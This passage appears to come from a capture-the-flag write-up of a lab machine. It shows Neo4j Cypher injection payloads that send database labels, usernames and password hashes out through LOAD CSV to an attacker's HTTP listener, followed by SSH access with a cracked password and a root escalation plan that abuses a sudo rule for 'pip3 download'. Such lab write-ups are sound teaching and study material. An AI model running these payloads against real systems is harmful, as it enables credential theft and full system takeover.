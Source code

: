 To simplify exploitation, we created a bash helper function to send Neo4j Cypher injection payloads. We used this injection point to extract label names out-of-band from the Neo4j database using `LOAD CSV`.

```zsh
# Start HTTP listener
python3 -m http.server -b $lhost 8080

# Create helper function to simplify exploitation
inject() {
  curl http://localhost:8001/search -s \
    -b "session=$1" --data-urlencode "search=$2" \
    -o /dev/null -w '%{http_code}\n';
}

# Use Cypher injection to send the database labels to our listener
inject $session "' RETURN 0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://$lhost:8080/?label='+label AS l RETURN 0//"
# Send keys from "user" label to our listener
for i in {0..5}; do inject $session "' RETURN 0 UNION MATCH (u:user) LOAD CSV FROM 'http://$lhost:8080/?key='+keys(u)[$i] as l RETURN 0//"; done
# send values for the "username" and "password" keys to our listener
inject $session "' RETURN 0 UNION MATCH (u:user) LOAD CSV FROM 'http://$lhost:8080/?username='+u.username+'&password='+u.password as l RETURN 0//"
```
{:file="bryan@red_team" .nolineno}

We identified two labels: "user" and "employee". Further extraction revealed keys for the "user" label, which included "username" and "password". With these keys, we extracted the hashed credentials and managed to recover the password for user "john" on [hashes.com](https://hashes.com/en/decrypt/hash). With these credentials, we gained SSH access to the system as user "john".

### Sudo Privileges

While logged in as "john", we used `sudo -l` and discovered some special sudo rights that allowed this user to run a specific command as root.

```text
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```
{:file="STDOUT" .nolineno}

The output showed that John could run `/usr/bin/pip3 download` with specific arguments. A bit of research into this command revealed that it extracts contents from compressed tar archives and runs `*/setup.py`{:.filepath}. This insight led us to host a malicious archive on the Gogs service. By creating an archive with a `setup.py`{:.filepath} containing a command execution payload, we could use John's sudo exception to execute arbitrary commands as root.

#### Gogs
